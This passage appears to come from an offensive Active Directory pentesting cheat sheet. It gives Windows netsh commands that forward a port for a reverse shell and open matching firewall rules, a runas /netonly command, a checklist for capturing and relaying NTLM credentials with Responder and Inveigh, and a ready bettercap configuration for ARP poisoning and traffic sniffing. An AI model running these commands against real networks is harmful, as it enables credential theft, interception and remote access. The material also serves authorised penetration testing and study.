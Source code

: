```powershell
#Forward the port 4545 for the reverse shell, and the 80 for the http server for example
netsh interface portproxy add v4tov4 listenport=4545 connectaddress=192.168.50.44 connectport=4545
netsh interface portproxy add v4tov4 listenport=80 connectaddress=192.168.50.44 connectport=80

#Correctly open the port on the machine
netsh advfirewall firewall add rule name="PortForwarding 80" dir=in action=allow protocol=TCP localport=80
netsh advfirewall firewall add rule name="PortForwarding 80" dir=out action=allow protocol=TCP localport=80
netsh advfirewall firewall add rule name="PortForwarding 4545" dir=in action=allow protocol=TCP localport=4545
netsh advfirewall firewall add rule name="PortForwarding 4545" dir=out action=allow protocol=TCP localport=4545
```

### Run domain commands from a non domain joined computer

```batch
runas /netonly /user:DOMAIN\User1 cmd.exe
```

## Initial Access

What to do when you are plugged on the network without creds.

* NTLM authentication capture on the wire with [Responder or Inveigh](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory#bkmrk-responder-%2F-inveigh) poisoning, maybe in NTLMv1 ?
* [Relay the NTLM authentications](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory#bkmrk-ntlm-and-kerberos-re) to interesting endpoints, be careful to the signing
  * SMB socks to list/read/write the shares
  * LDAP to dump the directory
  * LDAPS (or maybe SMB if signing not required) to add a computer account
  * ...
* ARP poisoning with **bettercap**, can be used to poison ARP tables of targets and receive authenticated requests normally destinated to other devices. Interesting scenarios can be found [here](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/arp-poisoning#scenarios-examples).
  * By sniffing everything on the wire with Wireshark, some secrets can be found with **PCredz**.

First, run bettercap with this config file:

```bash
# quick recon of the network
net.probe on

# set the ARP poisoning
set arp.spoof.targets <target_IP>
set arp.spoof.internal true
set arp.spoof.fullduplex true

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff.mdns

# start the modules
arp.spoof on
net.sniff on
```
